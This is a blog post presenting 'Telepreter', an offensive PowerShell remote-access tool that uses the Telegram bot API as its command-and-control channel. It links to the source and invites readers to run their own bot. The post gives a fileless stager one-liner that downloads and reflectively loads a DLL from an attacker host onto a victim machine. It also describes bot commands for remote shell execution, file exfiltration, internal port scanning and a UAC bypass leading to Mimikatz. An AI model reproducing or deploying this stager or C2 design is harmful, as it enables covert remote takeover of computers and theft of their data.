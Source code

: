 ```yaml
---
layout: post
title:  "Pwning computers using Telegram bot API"
date:   2018-12-10 18:30:00 -0300
categories: tools
---
```


# Introduction

In this post I will share some experience I had while working on a project named Telepreter. Telepreter is a PowerShell Runspace that uses Telegram bot API as transport and communications and C# DLL reflection to stay in-memory. So you can control your shells with a Telegram group and a single bot.

Even further, I tried to add my favorite tools into it. So it has builtin AMSI and UAC bypasses from my earlier blog posts and some other excellent tools that I like very much like PowerView and PowerPreter.

Side-Note: This is just a PoC, and an idea that I wanted to make it happen. I do not intend to develop further into it.

# Building a Telegram Bot with PowerShell execution capabilities

So I decided to build a Telegram bot, capable of remote controlling a Windows computer. But more importantly that I wanted it fileless, so I chose using C# + PowerShell again, so we can operate in-memory and not rely at all with disk.


## Telegram API
I researched some libraries in C# that might suit my need, and found one that had all the functionalities that I wished for in this [repository](https://github.com/TelegramBots/Telegram.Bot);

After compiling the code, I had a Telegram.Bot.dll and NewtonSoft.dll which are dependencies.

## Initial problems

I had to work out with loading these DLL's in a manner that would not drop anything on disk. So I resorted to Reflection (again...).

Compressing and obfuscating all the DLL code into a base64 string constant value, I am able create a function that can load this assemblies in memory so we won't have any exception when Telegram API functions are invoked.

![Screenshot](/assets/telepreter_004.JPG)

## Crafting a small fileless Powershell stager payload

To start a new bot instance on our victim, all it needs to be executed is the following line in PowerShell:
```powershell
[Reflection.Assembly]::Load((iwr attackerc2.com/telepreter.dll).Content)/[Telepreter.Agent]::Load();[Telepreter.Agent]::new().Start()
```

Which in turn, I developed and integrated into the bot a function to create a stager payload.

![Screenshot](/assets/telepreter_006.JPG)

This way, an attacker can create .bat which could be used to infect more computers inside the network or spawning elevated bot instances (more on this later)

# Core functionalities 

## How to control the bot

To execute a command, simply type `/bot:BOT_ID /shell PowerShellCommandHere`
    
PS: Dont worry about output size. The bot will send 200 lines once a second, so every output is sent to you!

![Screenshot](/assets/telepreter_009.jpg)

## How to download files

To download a file, simply type `/bot:BOT_ID /download C:\windows\system32\license.rtf` and Bot will send this file in group using Telegram file upload API!

![Screenshot](/assets/telepreter_010.jpg)

## How to Port Scan with it!

It is also useful for Recon, too! There is a sightly modified version of Invoke-Portscan from Nishang pack. No need to do fancy pivoting tricks to scan the internal network!

![Screenshot](/assets/telepreter_011.jpg)


## How to bypass UAC with it!

Check how I bypassed UAC in a Lab computer that was infected with it!

![Screenshot](/assets/telepreter_007.jpg)

In the above picture, I created a .bat stager that resided in the user temporary folder. This tiny stager will fetch the DLL using the supplied URL and then use reflection to load all dependencies and start the main function of the bot.

![Screenshot](/assets/telepreter_008.jpg)

Looking the picture above, it is possible to observe that a new instance of a bot has started. And the `Administrator` flag is set to True, which means this is an elevated session and we can use post-exploitation tools like Invoke-Mimikatz or others that require elevated privileges to work. To avoid having problems with multiple instances, never stay with more than one active session.


# Conclusion and Code

This concludes the demonstration of this fun project I was working for a few days. Feel free to dig into it as much you want to. Probably a lot of people are going to say that it is crappy code... but it really is! I am no professional programmer.

It is just an demonstration of how something like that could work. Of course that there are a ton of better ways of doing it. So feel free to do it if you like!

To get access to the source-code: [Link](https://github.com/0x00-0x00/Telepreter)

## To start your own bot

Just replace the following values in the code:

![Screenshot](/assets/telepreter_012.jpg)


Have fun.

Best regards,

zc00l.